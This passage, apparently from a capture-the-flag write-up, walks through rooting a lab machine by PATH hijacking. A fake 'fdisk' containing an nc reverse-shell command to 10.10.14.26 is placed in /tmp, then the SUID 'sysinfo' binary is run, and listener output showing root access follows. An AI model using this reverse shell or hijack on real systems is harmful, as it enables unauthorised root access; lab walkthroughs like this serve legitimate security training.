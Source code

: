 ```bash
nc                  100%[===================>]  34.69K  --.-KB/s    in 0.03s                           

2020-08-21 10:31:03 (1.07 MB/s) - ‘nc’ saved [35520/35520]
```

We transfer `nc` to the magic box.

We then echo our nc connection shell to our file

```bash
theseus@ubuntu:/tmp$ echo "/tmp/nc -e /bin/bash 10.10.14.26 1234" >> fdisk
echo "/tmp/nc -e /bin/bash 10.10.14.26 1234" >> fdisk
```

Then `chmod +x fdisk`

Do this also for `nc`

```text
theseus@ubuntu:/tmp$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
```

Then make sure that you run `chmod 755` on `fdisk` and run `sysinfo`

### Root.txt

Then we get a connection back on our listener as root!

```text
┌──(kali㉿kali)-[~/tools]
└─$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.26] from (UNKNOWN) [10.10.10.185] 38872
id && hostname
uid=0(root) gid=0(root) groups=0(root),100(users),1000(theseus)
ubuntu
```

Thanks for reading hope that you enjoyed! If it was worth the read please go and support me on buymeacoffee it would mean so much if you do!

